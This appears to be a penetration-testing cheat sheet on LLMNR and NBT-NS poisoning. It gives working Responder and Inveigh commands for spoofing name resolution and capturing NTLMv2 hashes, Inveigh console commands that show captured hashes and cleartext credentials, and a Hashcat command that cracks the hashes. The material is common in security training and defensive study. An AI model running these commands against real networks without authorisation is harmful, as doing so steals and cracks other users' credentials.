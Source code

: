 # LLMNR, NBT-NS Poisoning

## <mark style="color:yellow;">ABOUT</mark>

Imagine a situation: you need to connect to some local domain, website, or SMB share. You misclicked one letter and instead of some <mark style="color:blue;">**`\\mil-stash`**</mark> share you wrote <mark style="color:blue;">**`\\mel-stash`**</mark> and first request goes to DNS server, but it doesn't know who the hell is <mark style="color:blue;">**`\\mel-stash`**</mark>, so it sending a broadcast request (works same as ARP, just where ARP connects MAC to IP, LMMNR connects names to IP's). And that's the place where we come in with Responder (UNIX) or Inveigh (Windows) to poison these requests and to make target think that our IP is the right one. It tries to authenticate and sends hash which we can crack with <mark style="color:green;">**Hashcat.**</mark>&#x20;

## <mark style="color:yellow;">RESPONDER</mark>

<mark style="color:orange;">**MOSTLY LINUX TOOL (BUT THERE IS WIN VERSION)**</mark>

### <mark style="color:blue;">Overview</mark>

<mark style="color:red;">**Responder**</mark> is a <mark style="color:purple;">**powerful tool**</mark> used for **LLMNR/NBT-NS poisoning**, capable of capturing NTLMv1/NTLMv2 hashes from network traffic. It can operate in both <mark style="color:yellow;">**Analysis (passive) mode**</mark> and <mark style="color:yellow;">**Poisoning (active) mode**</mark><mark style="color:yellow;">.</mark>

### <mark style="color:blue;">Running Responder</mark>

To display available options, use:

```bash
responder -h
```

To start Responder with default settings:

```bash
sudo responder -I ens451
```

### <mark style="color:blue;">Common Flags</mark>

* <mark style="color:green;">**`-A`**</mark> : Analyze mode (passive monitoring without responding)
* <mark style="color:green;">**`-I <interface>`**</mark> : Specify network interface
* <mark style="color:green;">**`-w`**</mark> : Start WPAD rogue proxy server

### <mark style="color:blue;">Capturing Hashes</mark>

Responder listens for authentication requests and captures NTLM hashes when a target attempts to authenticate. <mark style="color:yellow;">**These hashes are saved in:**</mark>

```bash
/usr/share/responder/logs
```

Hashes are stored in the format:

```bash
(MODULE_NAME)-(HASH_TYPE)-(CLIENT_IP).txt
```

Example captured log files:

```bash
SMB-NTLMv2-SSP-13.13.13.13.txt
HTTP-NTLMv2-13.13.13.13.txt
```

### <mark style="color:blue;">Cracking NTLMv2 Hashes with Hashcat</mark>

```bash
hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt
```

## <mark style="color:yellow;">INVEIGH</mark>

<mark style="color:orange;">**WINDOWS TOOL**</mark>

### <mark style="color:blue;">Overview</mark>

<mark style="color:red;">**Inveigh**</mark> is a <mark style="color:purple;">**PowerShell/C# tool**</mark> similar to Responder, used for LLMNR, NBNS, and SMB relay attacks on Windows networks.

### <mark style="color:blue;">Running Inveigh (PowerShell Version)</mark>

```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

**Key Features:**

* Captures NTLM hashes via LLMNR/NBT-NS spoofing
* Supports multiple protocols (DNS, mDNS, SMB, HTTP, LDAP, WebDAV)
* Can output logs to a file (<mark style="color:green;">**`C:\Tools`**</mark> directory)

### <mark style="color:blue;">Running Inveigh (C# Version)</mark>

The C# version (<mark style="color:green;">**`Inveigh.exe`**</mark>) is more stable and is the recommended option.

```powershell
.\Inveigh.exe
```

**Default enabled options:**

* LLMNR & NBNS Spoofing
* HTTP/HTTPS Authentication Capture (NTLM)
* SMB & LDAP Listening

### <mark style="color:blue;">Interacting with Inveigh</mark>

> While running Inveigh, press **ESC** to open the interactive console.

**Useful Commands:**

```powershell
GET NTLMV2UNIQUE     # Display unique NTLMv2 hashes
GET NTLMV2USERNAMES  # Display captured usernames and IPs
GET CLEARTEXT        # Display captured cleartext credentials
STOP                 # Stop Inveigh
```

## <mark style="color:blue;">Cracking NTLMv2 Hashes with Hashcat</mark>

```bash
hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt
```
